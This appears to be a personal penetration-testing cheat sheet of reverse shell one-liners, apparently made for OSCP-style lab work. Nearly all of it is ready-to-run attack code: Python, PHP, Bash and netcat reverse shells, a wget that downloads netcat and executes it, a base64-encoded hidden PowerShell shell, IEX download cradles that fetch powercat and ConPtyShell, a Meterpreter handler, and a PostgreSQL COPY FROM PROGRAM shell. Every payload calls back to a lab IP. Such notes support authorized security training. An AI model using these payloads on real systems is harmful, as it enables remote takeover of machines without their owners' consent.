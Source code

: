 #shells #reverseShells #bindshells 

[[MSFVENOM]]
🔴 If the shell is not stable, try to migrate it to a socat or nc
### Python as an argument

```bash
'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.189\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'  
```

### Linux NC

🔴 If webserver doesnt get a hit try without http:// , ex wget 192.168.45.189

```bash
wget "http://192.168.45.189/nc" -O /tmp/nc && chmod +x /tmp/nc && /tmp/nc -e /bin/bash 192.168.45.189 443
```
### Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### PHP

```php
$sock=fsockopen("192.168.45.175",443);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```

### Bash

```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.157 443 >/tmp/f" >> this_is_fine.sh
```

### Powershell

#### 1

```bash
pwsh
```

```powershell
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

```powershell
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```

```powershell
$EncodedText =[Convert]::ToBase64String($Bytes)
```

```powershell
$EncodedText
```

execute it with

```powershell
powershell.exe  -WindowStyle hidden -e asdasdefefa
```

#### 2

```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```

```bash
python3 -m http.server 80
```

```bash
nc -nvlp 4444
```

```bash
powershell.exe  -WindowStyle hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.164:8000/powercat.ps1'); powercat -c 192.168.45.164 -p 4444 -e powershell"
```


### Conpty Shell

```bash
cd oscp/Windows_Tools
```

```bash
sudo python3 -m http.server 80
```

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 443
```

```powershell
IEX(IWR http://192.168.45.169/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.169 443
```

### Meterpreter OneLiner

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```


### POSTGRESQL

```bash
psql -h 192.168.220.108 -p 5432 -U 'postgres'
```

```psql
CREATE TABLE demo(t text);
```

```psql
COPY demo FROM PROGRAM 'sh -i >& /dev/tcp/192.168.45.156/80 0>&1';
```
